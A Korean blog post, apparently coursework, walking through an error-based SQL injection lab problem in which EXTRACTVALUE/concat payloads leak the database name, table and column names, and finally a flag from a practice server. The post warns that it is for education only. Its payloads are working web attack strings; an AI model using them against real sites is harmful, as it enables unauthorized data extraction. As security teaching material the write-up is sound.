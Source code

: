```yaml
---
layout: single
title:  "7 주차 SQL injection 데이터 추출 문제 풀이(1)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 7 주차 SQL injection 데이터 추출 문제 풀이(1)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>

<br>

## <span style="background:#696969; color:#ffffff">1.1 개요 </span>

<br>

SQL injection 데이터 추출 방식에는 3 가지 방식이 있습니다.

<br>

<span style='font-weight:bold; font-size:15px'>1. SQL 질의 문 결과가 화면에 출력 되는 경우(데이터추출(2)) => UNION SQLi (로그인 or 게시판 등)</span>

<span style='font-weight:bold; font-size:15px'>2. 에러 메세지가 화면에 출력 되는 경우(데이터추출(3)) => Error Based SQLi (에러 메세지 확인 가능 한 곳)</span>

<span style='font-weight:bold; font-size:15px'>3. 참과 거짓으로 출력 되는 경우(데이터추출(4)) => Blind SQLi (로그인 or 아이디 중복 체크 등)</span>

<br>

## <span style="background:#696969; color:#ffffff">1.2  Error Based SQLi </span>

<br>

🖥SQL injection 데이터 추출(3)과 추출된 값을 제외하고,  문제 풀이 과정은 같습니다.🖥

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.1 sql injection 포인트 찾기</span>

***

<br>

<img src="/images/2024-06-05-SQLinjection18/image-20240605035953092.png" alt="image-20240605035953092" style="zoom:50%;" />

기본적으로 Error Based SQLi를 적용하려면 SQL 에러를 화면에 출력 되어야 하므로,

<img src="/images/2024-06-05-SQLinjection18/image-20240601094626149.png" alt="image-20240601094626149" style="zoom:50%;" />

SQL에러 와 관련된 에러가 발생하는지 확인한다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.2  에러 출력 함수</span>

***

<br>

(대표적)**`EXTRACTVALUE()`**
or **`CAST()`**와**`CONVERT()`** 등을 이용.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.3 공격 format 만들기</span>

***

<br>

' and extractvalue('1',concat(0x3a,(select 'test'))) and '1'='1

<img src="/images/2024-06-05-SQLinjection18/image-20240601100910338.png" alt="image-20240601100910338" style="zoom:67%;" />

문법 에러가 나타나지 않으면서, 로직 에러가 나타나는 것 까지 확인 했습니다!

<br>

따라서 

' and extractvalue('1',concat(0x3a,(<span style="font-weight:bold; color: orange">select~~</span>))) and '1'='1

이와 같이 select 부분만 바꿔서 계속 쓸 수 있도록 공격 format을 만들 수 있습니다.

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.4 DB이름 확인하기</span>

***

<br>

DB 이름 확인하는 법은   
select database() 이므로,   
<br>

공격 format   
' and extractvalue('1',concat(0x3a,(<span style="font-weight:bold; color: orange">select~~</span>))) and '1'='1  
에 대입한다.   
<br>

' and extractvalue('1',concat(0x3a,(<span style="font-weight:bold; color: orange">select database() limit 0,1</span>))) and '1'='1

![image-20240605040803125](/images/2024-06-05-SQLinjection18/image-20240605040803125.png)

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.5 table이름 확인하기</span>

***

<br>

table 이름 확인하는 법은  
select table_name from information_schema.tables where table_schema='DB name' limit 0,1 이므로,   
<br>

공격 format  
' and extractvalue('1',concat(0x3a,(<span style="font-weight:bold; color: orange">select~~</span>))) and '1'='1  
에 대입한다.   
<br>

' and extractvalue('1',concat(0x3a,(<span style="font-weight:bold; color: orange">select table_name from information_schema.tables where table_schema='errSqli' limit 0,1 </span>))) and '1'='1

<img src="/images/2024-06-05-SQLinjection18/image-20240605040936100.png" alt="image-20240605040936100" style="zoom: 67%;" />[limit 0,1]

<img src="/images/2024-06-05-SQLinjection18/image-20240605041003713.png" alt="image-20240605041003713" style="zoom:67%;" />[limit 1,1]

<img src="/images/2024-06-05-SQLinjection18/image-20240605041031474.png" alt="image-20240605041031474" style="zoom:67%;" />[limit 2,1]



<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.2.6 column 이름 확인하기</span>

***

<br>

column 이름 확인하는 법은  
select column_name from information_schema.columns where table_name='table name' limit 0,1 이므로,   
<br>

공격 format  
' and extractvalue('1',concat(0x3a,(<span style="font-weight:bold; color: orange">select~~</span>))) and '1'='1  
에 대입한다.  
<br>

' and extractvalue('1',concat(0x3a,(<span style="font-weight:bold; color: orange">select column_name from information_schema.columns where table_name='flagTable' limit 0,1</span>))) and '1'='1

<img src="/images/2024-06-05-SQLinjection18/image-20240605041220019.png" alt="image-20240605041220019" style="zoom:67%;" />[limit 0,1]

<img src="/images/2024-06-05-SQLinjection18/image-20240605041243910.png" alt="image-20240605041243910" style="zoom:67%;" />[limit 1,1]	



이런 식으로 컬럼을 알 수 있다.

<br>



#### <span style="background:#A9A9A9; color:#ffffff">1.2.7 data 추출하기</span>

***

<br>

다음과 같이 data를 추출 한다.

' and extractvalue('1',concat(0x3a,(<span style="font-weight:bold; color: orange">select flag from flagTable limit 0,1</span>))) and '1'='1

<img src="/images/2024-06-05-SQLinjection18/image-20240605041502469.png" alt="image-20240605041502469" style="zoom:67%;" />

Flag 값이 나왔습니다!!

